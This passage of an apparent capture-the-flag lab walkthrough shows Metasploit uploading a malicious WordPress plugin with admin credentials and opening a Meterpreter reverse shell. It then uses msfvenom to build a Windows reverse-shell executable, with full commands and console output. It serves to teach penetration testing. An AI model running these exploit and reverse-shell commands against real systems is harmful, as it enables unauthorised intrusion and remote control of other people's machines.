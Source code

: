 ```
 VHOST no HTTP server virtual host
Payload options (php/meterpreter/reverse_tcp):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 LHOST 10.10.14.2 yes The listen address (an interface may be specified)
 LPORT 4444 yes The listen port
```

All that remains is to type “run”. The exploit consists of uploading a plugin that consists of a php page and then calling that page. This executes a staged **Meterpreter** reverse shell. The output should be something like:

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins
                               /glPxlNrGRx/aaBiENhsux.php...
[*] Sending stage (39189 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.29:55060) 
                               at 2020-10-06 14:40:38 +0800
[!] This exploit may require manual cleanup of 'aaBiENhsux.php' on the target
[!] This exploit may require manual cleanup of 'glPxlNrGRx.php' on the target
[!] This exploit may require manual cleanup of '../glPxlNrGRx' on the target
meterpreter >
```

## Upgrading the Meterpreter Reverse Shell

That gives us a Meterpreter shell that is a little unstable and also, because it is written in PHP, somewhat limited in its abilities. We are going to generate a better meterpreter shell using a program called msfvenom. To start with we can use msfvenom to generate a Windows executable program that will run the meterpreter reverse shell. To do this, we need to exit from the meterpreter session by typing _**bg**_ and then hit return.

Then we can type

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > 
    msfvenom -p windows/x64/meterpreter_reverse_tcp \
        LHOST=10.10.14.3 LPORT=6001 -f exe > revshell.exe
[*] exec: msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.3 
    LPORT=6001 -f exe > revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows 
    from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200262 bytes
Final size of exe file: 206848 bytes
```
